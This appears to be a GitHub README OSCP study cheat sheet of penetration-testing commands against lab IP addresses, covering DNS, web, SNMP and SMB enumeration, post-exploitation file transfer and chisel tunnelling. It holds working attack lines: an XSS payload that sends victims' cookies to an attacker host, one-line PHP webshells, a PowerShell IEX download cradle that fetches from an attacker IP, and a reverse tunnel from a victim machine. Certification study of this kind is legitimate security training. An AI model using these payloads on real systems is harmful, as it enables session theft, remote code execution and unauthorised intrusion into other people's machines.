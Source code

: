 # OSCP
OSCP Study Guide

## Table of Contents

## Enumeration and Recon



### subdomain enumeration

```
dig axfr @10.10.10.13 cronos.htb
```

### Web Enumeration

Nikto scanning:

```
nikto -h http://10.10.10.1
```

Directory busting with different tools:

DIRB

```
dirb http://10.10.10.1
```

Gobuster

```
gobuster dir -u http://10.129.155.74:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x aspx
```

### Pentesting Website Applications

XSS Payloads:
Cheatsheet: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

Basic XSS form testing with either netcat listener or python web server
```
<img src=http://10.10.16.10/pwn.jpg/>
```

Cross Site scripting to dump base64 cookies. Make sure to url encode in burp with ctrl + u
```
<img src=x onerror=this.src='http://10.10.16.10/?cookies='+btoa(document.cookie) />
```
### Webshells

Reference: https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html

Simple PHP webshell for command execution

```
<?php system($_REQUEST ['cmd']) ?>
```

```
<?php system($_GET['cmd']); ?>
```

### Pentesting SNMP

Port 161 UDP

```
snmpwalk -c public -v2c 10.129.213.210
```

```
snmp-check 10.129.213.210
```

### Pentesting SMB

```
crackmapexec smb 10.129.70.254 
```

Detect anonymous shares that are open

```
smbclient -L //10.129.70.254
```

Null Authentication

```
smbclient -N -L //10.129.70.254
```

## Post Exploitation

### Downloading and Transferring Files

Certutil:

```
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```

PowerShell:

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

```
powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.11.0.4/nc.exe')"
```

## Port forwarding and tunneling

Using Chisel:

Example using port forwarding so port 910 is available on kali box
```
on victim machine setup port forwarding
chisel.exe client 10.10.16.10:5555 R:910:127.0.0.1:910
```

```
On Kali attack box setup a reverse listner for port forward with chisel
./chisel server --port 5555 --reverse
```

